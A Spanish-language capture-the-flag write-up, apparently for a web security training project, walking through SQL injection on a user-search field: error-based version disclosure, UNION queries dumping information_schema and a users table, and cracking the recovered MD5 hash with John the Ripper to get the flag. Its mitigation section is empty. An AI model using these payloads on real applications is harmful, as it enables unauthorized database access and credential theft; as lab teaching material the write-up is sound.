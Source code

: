 # Inyección SQL - Usuarios
### A03:2021-Injection

Misma vulnerabilidad que [la inyección SQL en la vista de imágenes](./sql_injection_images.md).

El ataque de **inyección SQL** consiste en la capacidad de realizar queries diréctamente a la base de datos del servidor mediante la introducción de queries SQL en parámetros de input **no sanitizado**.

## Ataque

En la url de http://<IP>/???, tenemos acceso a un input para buscar usuarios por id, por lo que suponemos que el input de usuario va a formar parte de una query a la base de datos.

Probamos si podemos tener acceso a una vulnerabilidad por mala validación de input; escribimos un `'` y enviamos.

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'' at line 1
```

El servidor no valida la entrada, así que podemos intentar una injección.

Primero, obtenemos la versión de la base de datos del servidor con la siguiente query:

```sql
1 OR 1 GROUP BY CONCAT_WS(0x3a,VERSION(),FLOOR(RAND(0)*2)) HAVING MIN(0) OR 1-- -


Duplicate entry '5.5.64-MariaDB-1ubuntu0.14.04.1:1' for key 'group_key'
```
[Fuente: Andvanced SQL Injection Cheatsheet](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/blob/main/MySQL-Bypass-Error/README.md)


Tras invesigar esta versión, descubrimos que las versiones mayores de 5.02 de MySQL tienen una base de datos llamadas **INFORMATION_SCHEMA**, que contienen información sobre el resto de bases de datos guardadas en el servidor, lo que nos va a resultar útil en la exploración de la tabla users.

Exploranco [la documentación](https://dev.mysql.com/doc/refman/8.4/en/information-schema-columns-table.html), vemos que information_schema contiene una tabla **columns**, en donde se guardan los nombres de todas las columnas de todas las tablas presentes en la base de datos.

Desde el servidor se escapan los caracteres de comillas, por lo que tendemos que lanzar una query para obtener todas las columnas de todas las tablas.

Como desde el servidor únicamente se recuperan dos columnas para mostrar los parámetros en front, debemos hacer un **union** para concatenar dos columnas con la información que nos interesa.

```sql
1 or 1=1 union select concat_ws(0x2b,table_name,table_schema), column_name from information_schema.columns
```

Y de aquí obtenemos dos columnas interesantes de una tabla **users**.

```
ID: 1 or 1=1 union select concat_ws(0x2b,table_name,table_schema), column_name from information_schema.columns 
First name: users+Member_Sql_Injection
Surname : Commentaire

ID: 1 or 1=1 union select concat_ws(0x2b,table_name,table_schema), column_name from information_schema.columns 
First name: users+Member_Sql_Injection
Surname : countersign
```

Tras obtener los nombres de las columnas de la tabla `users`, sólo nos queda mirar los valores de las columnas sospechosas del usuario Flag.

```sql
420 or 1=1 union select Commentaire, countersign from users
```

Obtenemos lo siguiente:

```
ID: 420 or 1=1 union select Commentaire, countersign from users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```
Hacemos lo que nos pide con un john.

```bash
root@f4e2e2e5dc49:/# /john-jumbo/run/john --format=raw-md5 --wordlist=rockme.txt hashes
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=12
Note: Passwords longer than 18 [worst case UTF-8] to 55 [ASCII] rejected
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
Warning: Only 1 candidate buffered, minimum 24 needed for performance.
FortyTwo         (user)
1g 0:00:00:00 DONE (2025-06-15 15:21) 100.0g/s 100.0p/s 100.0c/s 100.0C/s FortyTwo
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
root@f4e2e2e5dc49:/# echo -n FortyTwo | sha256sum
9995cae900a927ab1500d317dfcc52c0ad8a521bea878a8e9fa381b41459b646  -
```

He aquí la flag.

## Mitigación



## Referencias

